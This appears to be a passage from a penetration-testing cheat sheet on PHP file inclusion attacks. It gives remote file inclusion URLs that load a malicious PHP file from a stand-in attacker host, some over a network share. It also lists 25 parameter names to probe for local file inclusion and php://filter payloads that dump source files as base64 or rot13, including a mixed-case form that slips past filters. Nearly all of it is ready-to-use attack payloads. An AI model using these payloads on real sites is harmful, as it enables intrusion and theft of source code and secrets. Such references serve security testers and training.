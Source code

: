 ## Basic RFI

```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

## Top 25 parameters

Here’s list of top 25 parameters that could be vulnerable to local file inclusion \(LFI\) vulnerabilities \(from [link](https://twitter.com/trbughunters/status/1279768631845494787)\):

```text
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

## LFI / RFI using PHP wrappers

### Wrapper php://filter

#### Base64 and rot13

The part "php://filter" is case insensitive

```text
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```
